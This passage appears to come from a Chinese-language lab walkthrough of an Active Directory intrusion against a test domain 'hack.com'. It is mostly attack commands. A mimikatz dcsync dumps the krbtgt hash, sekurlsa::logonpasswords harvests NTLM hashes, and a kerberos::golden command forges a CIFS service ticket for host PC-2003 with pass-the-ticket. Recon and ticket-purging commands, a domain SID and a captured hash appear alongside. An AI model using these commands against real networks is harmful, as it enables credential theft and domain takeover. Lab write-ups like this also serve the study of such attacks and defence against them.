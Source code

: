 ##### 6、查询域控的krgtgt

```
mimikatz lsadump::dcsync /dc:dc.hack.com /domain:hack.com /user:krbtgt
```

![image-20230202173353714](https://img.gyxnb.top/img/image-20230202173353714.png)

##### 7、再使用一次黄金票据使域控上线

```
krbtgt的ntml hash
域控管理员的sid
域名称
```



#### 控制2003

##### 1、获取基本信息

```
shell whoami /user 获取域的sid值(去掉最后的‐500，500表示为administrator用户)
shell net config workstation 查看域
```

![image-20230202173434780](https://img.gyxnb.top/img/image-20230202173434780.png)

得到 域为：`hack.com SID:S-1-5-21-2716900768-72748719-3475352185`

##### 2、获取服务账号的ntlm hash值

```
mimikatz sekurlsa::logonpasswords
```

![image-20230202173505598](https://img.gyxnb.top/img/image-20230202173505598.png)

得到 hash `1a4c65ba0926944b4066f6fcdcf05bbd`

##### 3、伪造票据（CIFS共享服务）

```
mimikatz kerberos::tgt 查票
mimikatz kerberos::purge 清票
shell klist 查票
shell klist purge 清票

mimikatz kerberos::golden /domain:hack.com /sid:S‐1‐5‐21‐2716900768‐72748719‐3475352185 /target:PC‐2003.hack.com /service:cifs /rc4:1a4c65ba0926944b4066f6fcdcf05bbd /user:abc /ptt
```

![image-20230202173541989](https://img.gyxnb.top/img/image-20230202173541989.png)

##### 4、访问2003
